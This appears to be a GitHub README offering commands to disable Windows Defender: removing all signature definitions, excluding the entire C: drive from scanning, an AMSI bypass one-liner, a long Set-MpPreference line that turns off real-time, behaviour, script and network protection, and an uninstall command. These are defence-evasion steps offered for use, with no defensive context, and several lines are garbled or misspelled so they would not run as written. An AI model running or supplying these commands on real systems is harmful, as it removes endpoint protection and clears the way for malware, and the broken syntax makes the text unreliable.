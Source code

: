 # Disable Windows Defender



[![Build Status](https://travis-ci.org/joemccann/dillinger.svg?branch=master)](https://travis-ci.org/joemccann/dillinger)

#### 1. In Administratir CMD run this Command

    
    C:\Program Files\Windows Defender\MpCmdRun.exe -RemoveDefinitions -All -Set-Mp Preference -DisableIOAVProtection $true
    

#### 2. Powershell
    
    PowerShell :- Add-Mp Preference -ExeclusionPath "C:/"
    

#### 3 MSI
    
    
    "[Ref].Assembly.GetType('System.Management.Automation.Amsiutils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)"


----------------------------------------



#### 0x1. Powershell :

    
    Set-MpPreference -DisableRealtimeMonitoring $ true -DisableAutoExclusions $ true -DisablePrivacyMode $ true -DisableBehaviorMonitoring $ true -DisableIntrusionPreventionSystem $ true -DisableIOAVProtection $ true -DisableScriptScanning $ true -DisableArchiveScanning $ true -DisableCatchupFullScan $ true -DisableCatchupQuickScan $ true -DisableEmailScanning $ true -DisableRemovableDriveScanning $ true -DisableRestorePoint $ true -DisableScannedMappedNetworkDrivesForFullScan $ true -DisableScanningNetworkFiles $ true -DisableBlockAtFirstSeen $ true
    
#### 0x2. Uninstall Windows Defender
     Uninstall-WindowsFeature-Windows-Defender-Name

